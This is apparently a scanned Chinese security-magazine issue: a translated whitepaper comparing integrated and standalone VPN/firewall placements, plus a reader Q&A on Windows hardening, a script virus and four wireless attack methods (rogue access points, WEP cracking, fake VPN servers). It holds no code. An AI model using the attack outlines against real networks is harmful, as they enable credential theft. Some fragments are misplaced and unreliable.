

图11



图12

选中一台计算机的图标，用鼠标右键可以立即开始一个监视进程（图13），我们可以看到所有用绿色图标表示的计算机都正在监视，而且被监视计算机的情况属于正常状况。



图13

通过查看详细的监视表（图14），我们知道这款软件其实是用 Ping 的方法和模拟一些简单服务请求来判断被监视服务器的运行状况的。这里，服务器可以模拟出 ftp、http、smtp、pop3、dns、nfs 等几种不同的服务探测。



图14

当发现其中某服务器的一些服务停止了响应以

（下转60页）

# 与单独 VPN 方案相比

为什么选择？

集成的 VPN / 防火墙解决方案

翻译/NetEye Support Team 韩松


# 简介

网络安全通信的作用已不用重申。企业组织认识到任何运用互联网进行的成功的商业活动必须通过虚拟专用网络（VPNs）。VPN 能够动态链接企业的分支和员工，并且允许他们通过公共设施共享专有信息，如因特网。决定使用何种 VPN 技术是件令人困惑的事情，并且在繁多的 VPN 厂商描述中，好像有无数的选择。

今天的 VPN 产品解决方案可以归纳为两类：(1) 单独的 VPN 网关；(2) 集成的 VPN / 防火墙解决方案。两者中，只有集成的 VPN / 防火墙解决方案能够彻底地保护网络安全。相比之下，与防火墙分离放置的VPN网关增加了许多不必要的安全和管理的复杂性，从而增加了网络管理员的负担。另外，对于单独的 VPN 网关方案，由于防火墙不能对加密的数据流进行访问控制，所以，VPN 网关相对防火墙的位置变得格外重要。

本文阐述集成的 VPN / 防火墙解决方案和单独的 VPN 网关对比之下的优势。采用单独的 VPN 网关方案必须认真考虑 VPN 网关相对于防火墙的位置，因为防火墙不能对加密的数据流进行访问控制。由于这个原因，下文针对网络安全管理员在选择非集成方案之前必须考虑到的多种网络配置来讨论单独网关解决方案和它们的体系缺陷。

# VPN 网关与防火墙集成

虚拟专用网利用公用设施，如 Internet 等，为企业分支机构、商业合作伙伴以及雇员之间提供安全的信息共享。一个安全并有效的 VPN 应具备以下几个特点：

- (1) 加强整体网络安全策略
- (2) 确保 VPN 报文流满足网络访问控制条件
- (3) 保护 VPN 网关免遭安全威胁
- (4) 提供全面的体系优化 VPN 和防火墙性能
- (5) 适应高度动态变化和快速增长的网络环境
- (6) 简化网络管理和监控


图1 VPN 网关与防火墙集成

VPN/ 防火墙一体化解决方案符合构建一个优秀的 VPN 所有的关键要求，表现在：

- 隔离网络安全威胁。通过 VPN / 防火墙一体化解决方案，VPN 网关以及 VPN 连接，得到了防火墙保护。普通的危害独立的 VPN 网关的服务攻击都能够被一体化的防火墙侦测并处理。
- 对所有通信的访问控制。VPN 网关置于访问控制设备中，能够对 VPN 报文提供更细微的安全保护。因为防火墙和 VPN 网关共享用户信息，个人和已定义组群能够根据设定的访问权限使用资源和服务，而且所有的 VPN 报文流被解密并检查，以确保只允许正确的数据包通过防火墙。
- 监控集中。一体化的 VPN 实现大大简化了安全策略的管理，尤其当网络环境中存在多个防火墙和 VPN 网关时。数据库更新和安全策略变化能够同时应用到所有 VPN / 防火墙，将配置错误的概率降至最低。此外，一体化的 VPN 解决方案允许关键的用户信息在整个企业多个网络应用之间共享，包括防火墙和 VPN 网关。通过这种方式，网络主管不用再维护交叉重叠在多个用户数据存储中的冗余的用户信息。
- 日志统一。只有使用一体化解决方案，才能支持VPN网关和防火墙共享网络、对象、用户、服务及管理员数据。这种方式下，所有的网络管理员最关心的审核信息，可以记录到惟一的日志中。
- 可扩展的体系结构。为了将网络在物理上扩展到分支机构和客户中，企业需要可扩展的VPN解决方案。VPN/防火墙一体化的解决方案能够无缝应用到VPN网络中，并且不会影响网络运行。当网络中的安全端点加倍并要求高度可用性时，这个优点就会变得更加重要。
- 简化路由。由于数据通过网络设备传递，每一条可能路径都作为一条路由表项。当资源添加到一个网络中时，路由表必须增加表项，将数据流路由到防火墙和VPN网关。将VPN和防火墙集成不需要维护单独的到这些设备的路由，从而简化了路由表。
- 性能优越。一些关于VPN/防火墙集成化解决方案的评论者认为，单独的VPN设备的VPN性能比集成化的好。这显然不是事实。集成的VPN/防火墙至少能提供相同的VPN性能，包括吞吐量、支持和QoS服务。集成的VPN/防火墙能够优化性能，通过加密、集成的带宽管理。

加密——许多集成的VPN/防火墙解决方案支持加密卡，从主机CPU上下载处理程序到加密卡的专用处理器中进行加密操作。基于硬件实现的VPN使VPN/防火墙一体化解决方案能够度量T1至T3链路，以便得知能够为其他安全任务使用的空闲的网关资源。

集成的带宽管理——这些方案用于解决网络拥塞问题，它允许企业设置商业的重要通信优先级高于其他通信，从而优化了现有广域网链路的使用。一些VPN/防火墙一体化解决方案将带宽管理、VPN、防火墙和网络地址转换（NAT）策略编辑器合并在一个集成的应用程序中。所以，网络管理员能够快捷地将一个防火墙或VPN策略延伸到带宽管理上。

下表总结了VPN/防火墙一体化解决方案的优点。随后，我们将通过分析单独的VPN网关可能的解决方案来详细解释该表内容。

放置可能面临的最困难的问题是需要繁琐的管理体系来支持。因为是两个不同的设备，可能会来自不同的厂家（大多数厂家提供集成的防火墙和VPN解决方案），所以体系结构有所不同：

- 安全策略；
- 控制终端；
- 日志工具；
- 用户数据库（除非两种设备方案都支持工业标准）；
- 对象或资源数据库；
- 路由表项。

图2所示的拓扑图需要为每一个设备提供不同的管理和监控工具。相应地，更新用户数据库或添加网络资源就需要加倍的工作量。除了需要更多的劳动量之外，这种方法也尤其容易引起安全策略的矛盾和路由表的错误配置。当VPN设备和防火墙被用来支持高可靠性和点到点VPN支持时，复杂度大大增加了。

## VPN网关放在防火墙后面

把单独的VPN网关放在防火墙后面（图3）是一个可选方案。通过防火墙的保护降低了VPN网关暴露给因特网安全威胁的风险。虽然这个方案是有道理的，但是事实证明这种配置存在严重的安全隐患：



- (1) 有限的访问控制。在这个配置中，防火墙必须不对VPN数据流进行严格的访问控制，将其传递给VPN网关。因为IPsec IKE VPN通信采用加密算法，50和51类（AH和ESP）IP包一定允许通过防火墙，IKE 500端口的UDP包也是可以通过的。这种配置类型不是最好的安全措施。访问控制保证包括合作伙伴、雇员和移动办公者在内的VPN用户能够正确地访问网络内的特定资源。一个没有充分的访问控制的VPN仅仅能够保证数据在传递中的安全，并不能够加强对网络资源的安全访问。
- (2) 不便捷的管理。同图2所示的VPN网关放在防火墙前面一样，图3所示的拓扑也需要不同的VPN和防火墙系统管理。这意味着需要分离的控制终端和充足的IT人员以保证配置更新，网络升级和安全策略编辑能够在两种体系中得到支持。特别是，这种网络设置要求单独的：
  - 安全策略；
  - 控制终端；
  - 日志工具；
  - 用户数据库（除非两种设备都支持工业化标准）；
  - 对象或资源数据库；
  - 路由表项。

这种配置对单个设备特别不方便，在这种拓扑中控制多个防火墙和VPN也几乎是不可能的。在这样的网络中最具挑战的管理任务是维持一致的安全策略。因为这种拓扑中没有对解密后的VPN数据进行访问控制，VPN安全不当的配置会成为网络的安全灾患。

## VPN网关与防火墙并联



许多VPN厂商提倡将VPN和防火墙各自单独联接到因特网上（图4）。在这种设置中，VPN设备被配置成仅接收加密的数据流。这种主张是因为在安装和调试过程中，专门的VPN设备能够很好地运行，同时又减少了对网络正常运行的影响。在所有的单独VPN网关的放置选择中，这种方式从安全的角度考虑可能是最差的。原因如下：

- (1) 因特网安全威胁。由于VPN网关直接连接到因特网上，它便可能成为恶意攻击的目标。单独的VPN网关并不具有抵御因特网上老练攻击的能力。在VPN网关发生单点故障的情况下，可能的危机是所有的VPN数据流都可能进入，或者更糟糕的是为未授权访问公司的资源敞开大门。
- (2) 有限的访问控制。由于与防火墙平行放置的VPN网关没有和能够实施全面访问控制的设备相连，因此，这种配置方式并不能将企业的移动员工、商业伙伴和客户区分开来。例如，一旦远程VPN用户被VPN网关验证通过，他便可以完全访问位于网关后面的所有的内部资源。类似地，一旦VPN网关发生问题，攻击者便可以访问所有的只对合法的 VPN 用户开放的资源。一些单独的 VPN 网关也布置了初步的过滤功能，但这些功能并不能与全面的访问控制相比。由于没有完善的检测功能，这种解决方案只能通过使用 IP 报头的信息来允许或拒绝用户的访问，像 URL 过滤和病毒扫描这类的内容安全服务就不能利用这种单独的 VPN 设备实现。
- 复杂的路由规划。将 VPN 网关与防火墙平行放置的方式并不像图 4 所示的那样简单。要实现这种配置方式，VPN 网关设备必须支持完整的地址转换功能 (NAT)，同时还要支持可以为远程 VPN 用户动态分配 IP 地址的地址池功能。



如果 VPN 网关不支持 NAT 功能，像图 4a 所示的问题就会发生。首先，远程 VPN 访问用户从 ISP 那里动态获取一个 IP 地址，而且也通过了网关的验证，可以访问他所需要的资源。这时，内部资源需要通过 VPN 隧道与远程访问用户通讯，但由于内部网络并不认识远程 VPN 用户的源地址，所以将回应发给了他的缺省网关防火墙。由于防火墙并不知道原始的访问请求，所以与客户端的回应通信由于目的地址未知而不能建立起来。

图 4b 所示为 VPN 网关如何通过地址池这个特性使 VPN 通信变为可能。一旦远程的 VPN 用户通过 VPN 网关的验证，接着 VPN 网关就将 ISP 分配的地址转换为能够被内部网络识别的地址，这个被分配的地址是从预先定义的地址池中分配的。为了确保回应到地址池的的数据包被发到 VPN 网关，到达相应网络的路由表项必须被正确配置，地址池的功能可以使这种配置可行。但是，这种解决方案容易引起错误，并且为了 VPN 的正确连接需要做大量的配置工作，而且还会带来大量的后续管理工作，以确保由于网络的升级而发生相应的路由表项的更新。



# VPN 网关放在防火墙边侧或中立区

一种避免 “并联” 放置缺陷的方法就是把单独的 VPN 网关放到防火墙的边侧。VPN 网关通过防火墙上专门的接口相连，或是放在中立区 (DMZ) (图 5)。在这种方式下，VPN 数据流可以在解密之后转发到防火墙上，因此，访问控制策略就可以执行了。这种配置方式的好处在于，它提供了对 VPN 数据流的访问控制策略的同时，保护了 VPN 网关免受因特网的攻击。但是，这些好处随着网络的复杂性增加而急剧缩减：

- (1) 复杂的管理。和其他的非集成的解决方案一样，如图 5 所示，需要分别实施 VPN 网关和防火墙的管理工作。两种完全不同的管理方式带来了很多管理上的负担，同时影响了网络的扩展和升级。特别是，用来升级和维护非集成化的 VPN 和防火墙的工作量是双倍的，而且要实现高可用性，可能需要 4 台或者更多的设备相互连接，以确保 VPN 数据流始终能正确地流向防火墙。在这种架构下，有效的网络升级和日志功能也会变得非常困难。由于防火墙和 VPN 网关的日志功能有限，管理员如果不通过手工对大量的数据进行分析和合并，是很难获知用户对网络的访问情况的。
- (2) 延迟。正如图 5 所示，VPN 网关被放在防火墙的 DMZ 区并且分配了一个可路由的 IP 地址，所有目的地址是VPN网关的数据流首先被防火墙正确地路由到了 VPN 设备，在那里数据被解密。VPN 网关在把数据发送给内部网络资源之前，先把它们送到防火墙那里进行 ACL 检查。出站数据（发源于内部网络目的地到 Internet 的数据）也是采用相似的方式通过 VPN 和防火墙。这意味着每一个 VPN 通信需要与防火墙连接两次。这种并不必要的连接，不仅影响整个网络的访问控制的效率，而且由于防火墙负载过度，还限制了 VPN 设备的性能。
- (3) 多次验证的复杂。就像 VPN 网关放置在防火墙前面的配置方式一样，图 5 所示的配置方式不仅在管理上，而且在可用性上都变得十分复杂。远程的 VPN 用户在访问 VPN 网关时需要验证，但由于 VPN 网关不能提供访问控制，因此在解密后，数据还必须流向防火墙，以便提供基于

下转 (24 页)

## INTERCOURSE
栏目编辑> Bright> answer@hacker.com.cn>

开始每期编读互动之前说几句已经成为一种惯例，那么这期我们说些什么？想想还是说一下我们的专题吧。本来为朋友们准备了一道关于非主流操作系统的大餐，可是后来感觉还是 Web Server 对大家更为实用。本期专题由三篇稿件所组成，因此希望能够得到大家的喜欢，有什么意见请来信和我交流：bright@hacker.com.cn

问：近来我的电脑不断受到攻击，我是个生手，请帮帮我。现象为：在桌面和电脑右下角启动时出现一个“红苹果”我在附件中给你们寄去。请问这是木马，还是什么东西？我该如何清除防治？谢谢。急；十万火急的等待。

答：安装你给的附件以后我确定，这个不是木马，而是国外一些网站（可能是不良网站）上的一个自动安装文件，生成的图标是一个快捷方式，你在上网的时候能够自动连接到该网站，进入到一个注册界面。不过不要惊慌，该软件提供了卸载功能，右键点击桌面右下角图标，在弹出菜单左击“Uninstall”即可。

问：如果有人入侵我们局域网主机以后并且取得了 Admin 权限，我要怎样设置才可以使他用不了 IPC$ 连接呢？

答：这个问题我刚好在网上看到别人发的帖子，就偷懒一下，直接拿过来：安装了 Windows NT/2000 服务器后，C$ 和 IPC$ 的分享是默认的。如不对此加以限制，那就会使外人有可乘之机，所以管理者须把这方便之门关闭而提高安全。尤其是 IPC$，不能通过 C: 的属性来改变其分享性，因此，应由注册表进行控制。

方法如下：

用 Regedit 在“运行”里打开注册表，而后在表中加上 HKLM\System\CurrentControlSet\Services\Lanmanserver\Parameters: Autoshareserver=0 DWORD 字段如果没有的话，就加以新建。

这样设置后，IPC$ 还是可以访问的，但是你还可以设定 IPC$ 的访问限制：

HKLM\System\CurrentControlSet\Control\Lsa: RestrictAnonymous=1

问：我在重新安装 Windows 2000 时，想将我的 IE 临时文件保存下来，听说是只要备份 Windows 目录下的 Temporary Internet Files 文件夹就可以。为什么我备份以后不能用？

答：许多朋友在重装电脑时，都想将辛辛苦苦花费了无数时间保存下来的 IE 临时文件“挪”过来，以便在新装好的系统中脱机浏览。我们大家都知道 Temporary Internet Files 是存放 IE 临时文件的地方，但是不少人试过了这个方法，不能奏效，内容看起来是备份了，但是不能脱机浏览。为什么呢？因为我们漏了两个重要的 index.dat，一个是 Windows 目录下 Cookies 目录中的 index.dat，另外一个是 Temporary Internet Files 目录中 Content.IE5 下的 index.dat。再重装系统时，我们应该先备份这两个 index.dat 文件，然后备份 Temporary Internet Files 目录。

重新安装好系统后，应该先删除 Temporary Internet Files 下的所有内容，然后将你备份的原先的 Temporary Internet Files 复制进去，但是 index.dat 的还原却不是那么简单，你必须回到 MS-DOS 模式，用 COPY 命令将它们复制回去。由于路径很长，而且它们是系统文件夹不可见，所以你可以做一个批处理文件来做这件事，然后重启进入 Windows，脱机浏览看看，内容是不是又回来了。

做好这项措施后，Windows 服务器的安全性就大大地提高了。

问：近来常听说无线网络，我想问问什么是无线网络，无线上网？无线局域网是否安全？

答：无线网络技术范围广泛，包括从允许用户建立远距离无线连接的全球语音和数据网络，到优化为近距离无线连接的红外线和无线电频率技术。通常，用于无线网络的设备包括便携式计算机、台式计算机、手持计算机、个人数字设备 (PDAs)、移动电话、笔式计算机和寻呼机。所谓无线宽频上网服务，主要强调无线行动上网服务，在使用者端，用户在笔记型电脑或 PDA 中加上无线网路卡及无线上网拨接账号即可上网。

据最近的一则报道，无线局域网并不安全。一些国外专家还指出，许多无线网络并没有采取安全防护措施，不但易遭黑客入侵，甚至连事后追查元凶都有困难。下面了解一下黑客入侵无线网络常常用的4种主要手法：

## 方法一：现成的开放网络
过程：黑客扫描所有开放型无线存取点（Access Point），其中，部分网络的确是专供大众使用，但多数则是因为使用者没有做好设定。
企图：免费上网；透过你的网络攻击第三方；探索其他人的网络。

## 方法二：侦测入侵无线存取设备
过程：黑客先在某一网络或公共地点设置一个伪装的无线存取设备，好让受害者误以为该处有无线网络可使用。若黑客的伪装设备讯号强过真正无线存取设备的讯号，受害者的计算机便会选择讯号较强的伪装设备连上网络。此时，黑客便可等着收取受害者键入的密码，或将病毒码输入受害者计算机中。
企图：非法侦测入侵；盗取密码或身份，取得网络权限。

## 方法三：WEP加密攻击
过程：黑客侦测WEP安全协议漏洞，破解无线存取设备与客户之间的通讯。若黑客只是采取监视方式的被动式攻击，可能得花上好几天的时间才能破解，但有些主动式的攻击手法只需数小时便可破解。
企图：非法侦测入侵；盗取密码或身份，取得网络权限。

## 方法四：偷天换日攻击
过程：跟第二种方式类似，黑客架设一个伪装的无线存取设备以及与准备入侵的网络相同的虚拟私人网络（VPN）服务器（如SSH）。受害者连接服务器时，冒牌服务器会送出响应讯息，使得受害者连上冒牌的服务器。
企图：非法侦测入侵；盗取密码或身份，取得网络权限。

问：我从同学的机器上拷了几个图片，回来之后复制到硬盘上，发现有两个隐藏文件：desktop 和 folder，desktop 当时就删掉了，因为系统提示有不安全的 Web 内容。但是 folder 怎么也删不掉，刚删了又出现了，而且后来发现每个文件夹里都有这个文件，但用杀毒软件却查不出来，怎样才能把它去掉？这个文件是隐藏的，我一直都打开隐藏文件，但以前都没见过这个文件，打开后是一个空白的网页，它看起来像是微软的，好像没什么危害，但老觉得它讨厌。另外，XP里的那个 internet 分级审查密码怎么去掉？

答：经过实验，你中的是新欢乐时光VBS.KJ病毒，VBS.KJ 是一个感染 html/htm、jsp、vbs、php、asp 的脚本类病毒。和欢乐时光“VBS.HappyTime”一样，该病毒采用 VBScript 语言编写，通过电子邮件进行传播，也可以通过文件感染；感染后的机器系统资源被大量消耗，速度变慢；利用 Windows 系统的“资源管理器”进行寄生与感染。不同的是VBS.KJ病毒显然经过改进。首先，每次感染都会进行一次变形，可以逃过普通的特征码匹配查找方法；其次，该病毒不会主动发送电子邮件，而是修改系统中 Microsoft Outlook Express、Microsoft Outlook 2000/XP 的设置，采用HTML格式的信纸来撰写邮件，病毒感染全部信纸，当发送邮件时，病毒会附在邮件中，隐蔽性更强；第三，会感染 html/htm、jsp、vbs、php、asp 等格式的文件，不会删除系统文件。你可以安装金山毒霸升级到最新版，然后用金山毒霸新欢乐时光专杀工具查杀。

问：在NT下如何授权普通用户检测服务器性能？
答：我们知道在NT下干什么都要有相应的权限，所以希望普通用户对服务器的性能有检测权，必须对用户进行授权。必须将下面的文件授予用户读的权限：
- %NTDir%\System32\PERFCxxx.DAT
- %NTDir%\System32\PERFHxxx.DAT
其中的xxx代表基本语言标记，例如009代表的是美国英语。如果不知道ID是什么，那可以通过注册表中的 HKEY_USERS\<本地服务器用户的SID>\Control Panel\International\Local 来确认基础语言ID。

